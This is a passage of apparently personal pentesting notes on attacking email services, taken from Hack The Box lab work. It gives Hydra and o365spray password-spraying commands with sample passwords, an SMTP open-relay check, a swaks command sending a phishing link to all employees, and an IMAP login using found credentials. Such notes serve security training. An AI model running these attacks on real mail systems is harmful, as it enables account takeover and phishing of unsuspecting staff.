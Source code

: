 ```shell

[2022-04-13 09:48:10,416] INFO : Valid Accounts: 2
```

## Password Attacks
- Works on `SMTP`, `POP3`, `IMAP4`
- Cloud Services:  
	- Microsoft Office 365:  [o365spray](https://github.com/0xZDH/o365spray) or [MailSniper](https://github.com/dafthack/MailSniper)
	- Gmail or Okta:  [CredKing](https://github.com/ustayready/CredKing)

### Hydra
```shell-session
hydra -L <user-list> -p <password> -f <% tp.frontmatter["RHOSTS"] %> pop3
```

```shell
BluePho3nix@htb[/htb]$ hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3
```

### O365 Spray
```shell
python3 o365spray.py --spray -U <user-list> -p <password> --count 1 --lockout 1 --domain  <% tp.frontmatter["VHOST"] %>
```

**Example**
```shell
BluePho3nix@htb[/htb]$ python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz
```

## Protocol Specifics Attacks
### Open Relay
```shell
nmap -p25 -Pn --script smtp-open-relay <% tp.frontmatter["RHOSTS"] %>
```

```shell
swaks --from <email> --to <email> --header 'Subject: <subject>' --body '<body>' --server <% tp.frontmatter["RHOSTS"] %>
```

**Example**
```shell
swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Company Notification' --body 'Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/' --server 10.10.11.213
```


## Interact with Services
### IMAP
#### cURL
> If you find access credentials
```base
curl -k 'imaps://<% tp.frontmatter["RHOSTS"] %>' --user <username>:<password>
```

